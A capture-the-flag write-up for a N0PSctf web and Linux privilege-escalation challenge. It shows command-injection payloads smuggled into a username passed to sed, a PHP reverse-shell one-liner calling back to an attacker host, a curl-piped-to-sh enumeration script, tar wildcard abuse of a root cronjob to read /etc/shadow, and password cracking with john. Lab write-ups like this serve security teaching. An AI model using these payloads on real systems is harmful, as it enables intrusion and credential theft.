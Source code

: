 # Challenge
* Type: blackbox
* Authors: algorab, Sto
* Category: Web exploitation, Linux privilege escalation
* Description:
  - The kidnappers of Jojo have a new web platform! This will never end! You have to stop them now! Root their server, we need to save Jojo.
  - The flag is N0PS{root password}
  - Note: You will not receive any email from this challenge. If at any moment of the challenge you need to perform offline bruteforce attack, you can use rockyou.txt with best64.rule
  - Hints (unlock for 0 point):
    1. Have you accepted terms and conditions?
    2. Woops! I forgot my password
    3. This should help: https://owasp.org/www-community/attacks/Full_Path_Disclosure
    4. This should help: https://book.hacktricks.xyz/linux-hardening/privilege-escalation

# Recon
- When I connect to the site, I see a login form:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/b3940f77-252b-47c8-a910-cc291b8650b9)

- It has login, create account functions, and also forgot password.
- I think it's a SQL injection challenge, so I tried some payloads, but nothing work. After a while, I decide to create an account and login. A popup is shown:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/858b4523-9237-486c-820b-fecf38019557)

- Accept the Terms and conditions to reach other functions on the site. After that, a chat is shown. I see an account named `j0j0_admin123` on the chatbox. I can send them a message, so maybe it's a possible XSS here. I send them a simple payload:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/bbfb89f0-38e6-4058-845a-5dfaf57053ae)

- It's obvious that they HTML encoded my message before sending to chatbox, so XSS is not possible.
- The Home page seem not interesting here. When I access Terms and conditions, the previous popup is shown to me:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/5a1c23a1-10ff-4aa0-bbfa-f280aaaa19b9)

- At My profile, you can change your name here:
  
- Notice that my name appears at Terms and conditions popup, and I can change it, so it's a possible XSS:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/e25a8189-ac1a-4b96-b66e-9d765d046d37)

- But, nothing happened:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/fc85fa9b-2d22-468f-8cf4-7d4e9668d48e)

- The last function I didn't try is download the terms and conditions button. But when I download it:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/dd7b3f2c-61be-4e59-84c1-881803d2515e)

- It show me an command line error of [sed](https://www.gnu.org/software/sed/manual/sed.html) command, instead of the Terms and conditions, so I think something bad happened here. Maybe it's because of my name? I turn my name to original, and download the pdf again:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/f7778c5f-21cb-4d42-960a-0bdcbdf5c494)

- Everything is OK now, so I guess that the server use `sed` with my username for a command argument. So, it's a command injection here.

# Exploit
- First, I have to search on Google how to use `sed` command since I'm not familiar with it. According to the error I received at the first PDF, they use `sed -e`. Here are some example:
  ```shell
  sed -e 's/hello/world/' input.txt > output.txt
  echo "lmao this is funny" | sed -e 's/lmao/hehe/' # will output hehe this is funny 
  ```
- About this command, it's a powerful stream editor that allow you to search, delete, replace, extract text data line by line. This command is not vulnerable itself, but the server does not sanitize username before use is as an argument.
- Now I need to find a way to perform command injection.
## Command injection
- After a while of fuzzing, I found that the command line structure will look like:
  ```
  (some commands here) | sed -e 's/(username here)/(placeholder in PDF here)/' | (generate PDF here)
  ```

- To close the apostrophe character, my username will be:
  ```
  ' 2>/dev/null; echo "hacked";#
  ```
  - The `2>/dev/null` part is used to redirect syntax error to /dev/null
  - The hash character is to comment out the remain part of command line

- But, there still an error:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/5b012d6c-90e5-4912-adc0-4c2a4f63074d)

- After a while playing with `sed` command on my own laptop, I see that I have to close the command with a `/` character:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/ee8377a3-dd2f-42f6-8957-229681d1c4b5)
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/83316804-5949-4474-8ea2-e7243634bfdd)

- I added a `/` character before my username, but the error still here:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/25d2a357-dfdb-4441-b756-c303b67d91cf)

- It's fuzzing time again, and I find that we can use the `sed` command like this:
  ```shell
  echo "lmao this is funny" | sed -e s/lmao/hehe/ #(no apostrophe)
  ```
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/a25ba8a3-c0bf-465b-a798-7259db684e54)

- I tried to remove the apostrophe and the /dev/null part (my username become `/; echo "hacked";#`, and receive:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/36314dc7-0f5e-4bb6-a675-fc7cd24b5a7f)

- Notice that the error with `sed` disappeared, but `echo` became `cho` for some reason. I tried to add an `e` to `echo`, and ...
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/2bf9f818-04ce-4cea-b301-619df23163cc)

  BOOM!!!

## Reverse shell
- As what a hacker do when they successfully perform command injection, I try to create a revshell for my convenience. I'm using ngrok here:
  ```shell
  ngrok tcp 1337
  (copy your HOST and PORT appeared on your terminal)
  ```
  Open another terminal:
  ```shell
  nc -nlvp 1337
  (setup a listener)
  ```
  Because it's a PHP server, and the server does not have Python or netcat installed, so I use a PHP reverse shell payload (from revshells.com):
  ```
  php -r '$sock=fsockopen("HOST", PORT);exec("sh <&3 >&3 2>&3");'
  ```
  Perform command injetion again:
  ```
  /; eecho "$(php -r '$sock=fsockopen("HOST", PORT);exec("sh <&3 >&3 2>&3");')";#
  ```
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/b029dafc-0885-4a0b-84c1-8b37a420df00)

## Local privilege escalation
- The goal is to read the root password, so we have to read /etc/shadow. But by default, we must have sudo or root privilege to read it.
- After a while checking the system, I found that I can download external resource using `curl`. I found a tool on [hacktrick](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
- Using [this tool](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), I can find attack vector easier. Just use the provided curl command:
  ```
  curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
  ```
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/23396030-5b0a-4c6f-994b-39e16b549bc1)

  Wait for it to run

- I see that there is a suspicious file in /opt, so I try to examine it:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/b78dd28b-44d4-4eea-9ad5-736ebf899116)
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/422ac4a8-5e22-4a39-8307-acb428627b63)

- The script is a backup cronjob. It first cd to /var/www/jojo_website, write the date to log file, then use `tar` to compress all the file in that directory and save as */root/jojo_backup.tar*. Notice that the `tar` command use wildcard *, so it's vulnerable to [tar wildcard injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). It is ran by root, so we can abuse it
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/ebc6d1ec-f713-46bc-932f-fd60f95eaf61)

- I make some special file to abuse the wildcard:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/9ab859ea-71de-4ef8-b8cf-fdce7297853e)

- Wait for a while, and check the /tmp, you will see a file named *shadow_file*. Cat it and we'll have the content of /etc/shadow, include the line:
  ```
  root:O6w162b1Hlo0I:19870:0:99999:7:::
  ```

- Do not forget the /etc/passwd:
  ```
  root:x:0:0:root:/root:/bin/bash
  ```

## Password cracking
- On my machine, I unshadow the password of root, and received:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/661a2c91-9c67-4d7c-b938-5c7f8f5c96a7)

- Using `john` with rockyou.txt wordlist, and best64.rule set (the challenge tell me to do this), I found the root password:
  ```shell
  john --wordlist=rockyou.txt --rules best64.rule pass
  ```
- Received: `root:1badjojo:0:0:root:/root:/bin/bash`
- Password: `1badjojo`

# Flag
- The flag is: N0PS{1badjojo}

# Edit
- If you try to extract metadata of the PDF terms file, you will see the author of PDF is the name of the tool which they used to make these PDF:
  ![image](https://github.com/NoSpaceAvailable/N0PSctf/assets/143888307/62b0ce23-6ad9-408d-ac45-e51aed0e0d2e)

- A closer look into this tool, combine with the #3 hint, you will know that there is a [weird behavior](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536) in `wkhtmltopdf` (version affected <= 0.12.5). But in this challenge, they use version 0.12.6 (which local file access is disabled by default), so in the backend they must use the flag *--enable-local-file-access* 
